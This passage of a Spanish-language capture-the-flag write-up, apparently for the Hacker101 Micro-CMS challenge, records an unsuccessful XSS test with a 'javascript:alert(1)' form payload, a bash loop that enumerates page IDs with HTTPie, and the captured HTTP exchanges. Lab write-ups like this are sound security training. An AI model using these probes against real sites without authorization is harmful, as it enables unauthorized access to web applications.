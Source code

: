 ```HTTP
    </head>
    <body>
        <a href="../">&lt;-- Go Home</a><br>
        <a href="edit/10">Edit this page</a>
        <h1>&lt;form src='javascript:alert(1);'&gt;</h1>
<form src='javascrubbed:alert(1);'>
    </body>
</html>
```

**Observaciones**

- No se observa una inyección XSS para el payload `<form src='javascript:alert(1)'>`.
- Se encontró el endpoint GET `page/edit/id`.

**Intento de acceso a las páginas 1 a la 8**

Automatización para el acceso en bash
```bash
for i in {2..8}; do http -v GET "https://[HASH].ctf.hacker101.com/[ENDPOINT]/${i}" > "${i}.txt"; done
```

**Página id 1**
```HTTP
GET /page/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4


HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 275
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 15:50:49 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title>Testing</title>
    </head>
    <body>
        <a href="../">&lt;-- Go Home</a><br>
        <a href="edit/1">Edit this page</a>
        <h1>Testing</h1>
<h1>Woo</h1>
<p>Testing out this new micro-CMS!</p>
    </body>
</html>
```
